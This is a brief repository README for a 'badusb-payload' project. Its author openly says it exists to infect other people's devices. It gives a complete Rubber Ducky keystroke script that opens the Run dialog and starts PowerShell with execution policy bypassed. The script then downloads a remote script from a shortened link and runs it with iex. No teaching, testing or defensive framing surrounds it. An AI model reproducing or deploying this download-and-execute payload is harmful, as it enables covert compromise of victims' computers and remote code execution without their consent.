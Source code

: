 # badusb-payload
Move along, i use this simply to host my payload for my badusb attacks. ^^
That means it's most likely very messy code that which has the goal to do my bidding on devices i infect.

To run my code i use this DUCKY script:
```
DELAY 500
GUI r
DELAY 100
STRING powershell -Exec Bypass iex ((New-Object System.Net.WebClient).DownloadString('https://3.ly/ao519'))
ENTER
```
The link is shortened so the ducky doesn't have to type such long of a string.
